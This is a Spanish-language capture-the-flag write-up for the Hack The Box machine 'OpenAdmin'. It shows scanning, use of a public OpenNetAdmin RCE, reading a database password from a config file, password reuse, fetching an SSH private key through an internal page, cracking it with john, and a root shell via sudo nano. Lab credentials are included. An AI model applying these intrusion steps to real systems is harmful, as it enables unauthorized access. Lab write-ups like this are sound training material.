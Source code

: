 # Openadmin ![Avatar](https://www.hackthebox.eu/storage/avatars/5b00db157dbbd7099ff6c0ef10f910ea_thumb.png)     

## Initial Scan

```nmap
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
## Enumeration

Empecemos enumerando el servicio web 
```bash
gobuster dir -u http://10.10.10.171/ -w wordlists/big.txt
/artwork (Status: 301)
/music (Status: 301)
/sierra (Status: 301)
```
Miramos en /music y cuando pulsas el login nos lleva a /ona donde se nor muestra una pantalla de el servicio OpenNetAdmin donde se nos revela que la versión es la 18.1.1
## Exploit

La versión de OpenNetAdmin presenta una vulerabilidad RCE conocida
```
https://www.exploit-db.com/exploits/47691
```
Usandolo obtenemos una shell como www-data

## Local recon

### Enumeramos usuarios con acceso via shell
```
$ cat /etc/passwd | grep 'bash'
root:x:0:0:root:/root:/bin/bash
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```
### Buscamos contraseñas
```
cat local/config/database
    'db_type' => 'mysqli',
    'db_host' => 'localhost',
    'db_login' => 'ona_sys',
    'db_passwd' => 'n1nj4W4rri0R!',
    'db_database' => 'ona_default',
    'db_debug' => false,
```
### Jimmy
Probamos la contrasña obtenida en jimmmy en joanna y obtenemos acceso a el usuario jimmy
```
jimmy@openadmin:~$ netstat -aln | grep 127
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:58948         127.0.0.1:52846         TIME_WAIT  
```
Vemos que hay paginas en localhost
```
jimmy@openadmin:~$ curl 127.0.0.1:52846
```
Vemos que tenemos una pagina de login
```
jimmy@openadmin:cd /var/www/internal
jimmy@openadmin:/var/www/internal$ ls -l
total 12
-rwxrwxr-x 1 jimmy internal 3229 Nov 22  2019 index.php
-rwxrwxr-x 1 jimmy internal  185 Nov 23  2019 logout.php
-rwxrwxr-x 1 jimmy internal  339 Nov 23  2019 main.php
```

En index.php encontramos el siguiente fragmento de código
### Index.php
```
if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
    if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
}
```
### Main.php
```
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
```
Con todo esto podriamos obtener el id_rsa de joanna y logearnos en su cuenta

El hash corresponde a la palabra Revealed, asi que podemos logearnos sin problema
```bash
curl -XPOST localhost:52846 -d "login&username=jimmy&password=Revealed" -L -v | grep PHPSESSID
PHPSESSID=i3spbj9jben1bon5alpr0ek1at
curl localhost:52846/main.php -H "PHPSESSID=i3spbj9jben1bon5alpr0ek1at" -v
```
Con esto obtenemos la clave RSA

### Crackeando la clave

Guardamos la clave RSA en local y la crrackeamos
```bash
$:/home/~/.JohnTheRipper/run/ssh2john.py OpenAdmin_rsa > hash.txt
$:/home/~/.JohnTheRipper/run/john hash.txt --wordlist=/home/~/rockyou.txt
> bloodninjas      (OpenAdmin_rsa)
```

### Joanna

```bash
$:ssh -i OpenAdmin_rsa joanna@10.10.10.171
joanna@openadmin:~$ wc -c user.txt 
33 user.txt
```

## Privesc

```bash
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
Veamos como podemos explotar esto
```bash
sudo /bin/nano /opt/priv
```
Una vez abierto nano con privilegios elevados usamos CTRL-R + CTRL+X y podemos ejecutar
```bash
reset; sh 1>&0 2>
```
Y solo nos quedaria leer la flag
```
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
/home/joanna
# cd /root
# ls
root.txt
# wc -c root.txt
33 root.txt
```

